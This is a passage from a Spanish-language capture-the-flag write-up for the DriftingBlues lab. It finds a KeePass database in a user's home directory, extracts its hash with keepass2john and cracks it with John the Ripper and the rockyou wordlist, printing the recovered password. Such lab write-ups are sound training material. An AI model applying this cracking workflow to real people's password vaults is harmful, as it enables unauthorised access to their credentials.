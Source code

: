 ```bash
░░░░░█░░░░▀▀▄▄░░░░░░░░░░░░░░░█
░░░░▐▌░░░░░░█░▀▄▄▄▄▄░░░░░░░░█
░░███░░░░░▄▄█░▄▄░██▄▄▄▄▄▄▄▄▀
░▐████░░▄▀█▀█▄▄▄▄▄█▀▄▀▄
░░█░░▌░█░░░▀▄░█▀█░▄▀░░░█
░░█░░▌░█░░█░░█░░░█░░█░░█
░░█░░▀▀░░██░░█░░░█░░█░░█
░░░▀▀▄▄▀▀░█░░░▀▄▀▀▀▀█░░█
```

Listando el contenido del usuario, observamos un archivo correspondiente a keepass.

```bash
gill@driftingblues:~$ ls -la
total 24
drwxr-xr-x 4 gill gill 4096 Jan 28 14:26 .
drwxr-xr-x 4 root root 4096 Feb 24  2021 ..
drwx------ 3 gill gill 4096 Jan 28 14:26 .gnupg
drwx------ 2 gill gill 4096 Feb 24  2021 .ssh
-rwx------ 1 gill gill 2030 Feb 24  2021 keyfile.kdbx
-r-x------ 1 gill gill 1805 Jan  3  2021 user.txt
```

Usamos `John` para obtener el hash y luego crackear la contraseña.

```bash
❯ keepass2john keyfile.kdbx > keepass.txt
❯ cat keepass.txt
───────┬────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: keepass.txt
───────┼────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ keyfile:$keepass$*2*60000*0*86fe1a63955b5984c0adb127a869153f24c41fdc56678d555f778d1309f9867c*e580d1bef4bf0f44b845fc
       │ e13c9648cd22f143760be5bae503a419a7f76a21f0*e99d45aab90c26200191dbca6b3fae34*e3169392c5eec5
```

```bash
❯ john --wordlist=/usr/share/wordlists/rockyou.txt keepass.txt
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 60000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
porsiempre       (keyfile)
```

Procedemos a visualizar el contenido del archivo utilizando [keeweb](https://app.keeweb.info/), pero no obtenemos información relevante.

